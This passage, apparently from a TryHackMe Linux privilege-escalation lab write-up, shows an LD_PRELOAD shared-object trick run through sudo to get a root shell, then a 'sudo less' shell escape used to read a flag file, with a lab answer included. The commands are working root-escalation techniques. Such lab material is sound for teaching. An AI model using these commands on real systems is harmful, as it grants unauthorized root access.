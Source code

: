 We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.


### Answer the questions below
#### How many programs can the user "karen" run on the target system with sudo rights?  

```
karen@ip-10-10-132-49:/$ sudo -l
Matching Defaults entries for karen on ip-10-10-132-49:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-132-49:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano


3
```



#### What is the content of the flag2.txt file?  

#### Forma 1

```
sudo less /etc/passwd

!/bin/bash


cd /home
root@ip-10-10-132-49:/home# ls
ubuntu
root@ip-10-10-132-49:/home# cd ubuntu/
root@ip-10-10-132-49:/home/ubuntu# ls
flag2.txt
root@ip-10-10-132-49:/home/ubuntu# cat flag2.txt
THM-402028394
root@ip-10-10-132-49:/home/ubuntu# 


```
#### Forma 2
